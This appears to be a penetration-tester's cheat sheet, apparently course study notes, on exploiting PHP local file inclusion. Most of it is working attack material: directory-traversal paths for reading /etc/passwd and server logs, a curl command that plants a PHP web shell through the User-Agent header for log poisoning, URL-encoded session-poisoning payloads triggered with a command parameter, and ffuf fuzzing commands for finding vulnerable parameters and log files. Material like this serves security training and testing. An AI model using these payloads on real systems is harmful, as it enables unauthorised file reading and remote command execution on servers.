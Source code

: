 	Settings:
	* `allow_url_include`: Allow RCE through wrappers and RFI
	* `extension=expect`: Allow RCE through `expect` wrapper

| **Files to try**                                                           | **Description**                             |
| -------------------------------------------------------------------------- | ------------------------------------------- |
| `/index.php?page=../../../../etc/passwd`                                   | Linux                                       |
| `/index.php?page=../../../../Windows/System32/drivers/etc/hosts`           | Windows 1                                   |
| `/index.php?page=..\..\..\..\Windows\System32\drivers\etc\hosts`           | Windows 2                                   |
| `/index.php?page=../../../../var/log/apache2/access.log`                   | Apache (log poisoning)                      |
| `/index.php?page=../../../../xampp/apache/logs/access.log`                 | Apache (log poisoning) in XAMP 1            |
| `/index.php?page=..\..\..\..\xampp\apache\logs\access.log`                 | Apache (log poisoning) in XAMP 2            |
| `/index.php?page=../../../../var/lib/php/sessions/sess_<PHPSESSID Cookie>` | PHP Session Poisoning with PHPSESSID cookie |

If we retrieve Apache access log, insert php code in the User-Agent header of the original request to trigger Log Poisoning vulnerability, then you can see the command output in the log file

> [!warning] Do no forget to try both Linux and Windows commands in log poisoning execution

Through curl: `curl -s ".../meteor/index.php" -A '<?php system($_GET["cmd"]); ?>'`

![](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/commonwebattacks/a5768a72a99581707edad7a81a481e3a-cwa_lfi_modfirstreqcom.png)

If we retrieve PHP session file we can insert a payload through the vulnerable parameter and then trigger it visiting the PHP session file:
* Inserting the payload: `...index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`
* Triggering the payload: `...index.php?language=/var/lib/php/sessions/sess_<PHPSESSID Cookie>&cmd=id`

**Note:** To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten after our last inclusion

There are other similar log poisoning techniques that we may utilize on various system logs, depending on which logs we have read access over. The following are some of the service logs we may be able to read:
- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

**Finding vulnerable parameters to abuse:**
	`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`
	`ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`
**Finding the full server webroot path**: 
	`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`
**Finding Server logs/Configuration files:**
	`ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`
